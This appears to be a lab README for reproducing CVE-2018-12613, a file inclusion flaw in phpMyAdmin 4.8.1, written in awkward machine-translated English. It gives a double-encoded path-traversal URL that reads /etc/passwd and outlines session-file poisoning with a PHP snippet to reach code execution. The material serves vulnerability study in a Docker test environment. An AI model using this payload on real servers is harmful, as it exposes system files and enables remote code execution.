 # phpmyadmin 4.8.1 Remote File Containment Vulnerability (CVE-2018-12613)

phpMyAdmin is an open source, web-based MySQL database management tool. There is a file containing logic in index.php, which can be bypassed by secondary encoding, causing remote files to contain vulnerabilities.

Reference documentation:

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## vulnerability environment

Run the following command to start phpmyadmin 4.8.1:

```
Docker-compose up -d
```

After the environment is started, go to `http://your-ip:8080` and you will be taken to phpmyadmin. The configuration is "config" mode, so you don't need to enter a password to log in directly to the test account.

## Vulnerability recurrence

Visit `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/ Passwd`, visible `/etc/passwd` is read, indicating that the file contains a vulnerability:

![](1.png)

The usage is also relatively simple, you can execute `SELECT '<?=phpinfo()?>';`, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

![](2.png)